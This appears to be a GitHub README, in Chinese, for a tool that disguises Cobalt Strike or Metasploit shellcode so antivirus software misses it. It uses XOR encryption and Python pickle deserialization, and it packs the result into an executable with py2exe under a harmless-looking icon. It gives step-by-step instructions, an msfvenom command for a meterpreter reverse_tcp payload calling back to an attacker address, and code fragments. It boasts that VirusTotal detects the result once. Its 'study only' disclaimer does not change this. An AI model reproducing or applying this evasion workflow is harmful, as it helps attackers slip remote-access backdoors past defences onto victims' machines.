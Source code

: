 # CS MSF 均可使用
_描述：前阵子可动态免杀绝大部分杀软，最近发现微软的Defender 动态免杀 不了，想了想还是放出来吧，供大家参考下_

**可以的话，老哥们点个star吧 嘻嘻**

![图片](https://github.com/LiuYanJan/picture/blob/main/bypassav1.png)

`1、Filehandle.py用于处理CS MSF 生成的shellcode文件 提取 shellcode`

`2、ver.py 是核心生成代码，需修改`

`3、exeSetup.py 是 py2exe 打包启动文件，可修改`

**VT上只有匹配到了1个！还是很Nice**

![图片](https://github.com/LiuYanJan/picture/blob/main/bypassav.png)

[具体使用步骤参考：](https://blog.csdn.net/qq_42342141/article/details/113499224)

# 原理：
python 反序列化免杀

# 环境：
_测试时，我发现 python 3.7.0 这个版本兼容好，其他版本会有些问题，打包的程序可能无法正常使用！！！_

**补充：最近发现有些表哥运行有问题，其实是python 版本的问题，python安装包我也上传了**

	* python 3.7.0  
	* py2exe库 【pyinstall指纹已经被很多杀软收集了】
	* python3.7.0淘宝镜像-http://npm.taobao.org/mirrors/python/3.7.0/python-3.7.0.exe
	


# 步骤
** 1、生成shellcode

	* CS 生成C语言格式
	* MSF msfvenom -a x86 -p windows/meterpreter/reverse_tcp lhost=192.168.47.147 lport=4444 -b '\x00' -f python

** 2、修改 ver.py 文件里的 shellcode值

  [1] Filehandle.py 用于处理 第一步里的 shellcode文件
  
  [2] ver.py 可修改异或密钥

          #key 设定shellcode的密钥
          key = 'liam'
          mess = get_shellcode(shellcode, key)
          #print(mess)
          ret = pickle.dumps(Student())
          decode_hex = codecs.getdecoder("hex_codec")
          encode_hex = codecs.getencoder("hex_codec")
          
          ret_hex = encode_hex(ret)[0]
          #key2 设定反序列化里的密钥
          key2 = "byav"


** 3、可在 exeSetup.py 修改生成的图标

     setup(
      options=options,    
      description = "this is a py2exe test",   
      zipfile=None,
      windows = [{"script":'launch.py',"icon_resources": [(1, u"softmgr.ico")]}]  #可选择其他图标ico
      )


** 4、运行 ver.py 后在 output 目录可查看到 launch.exe

**【申明：此项目仅供学习参考，不可用于非法途径，否则一切后果，由恶意使用者个人承担！】**
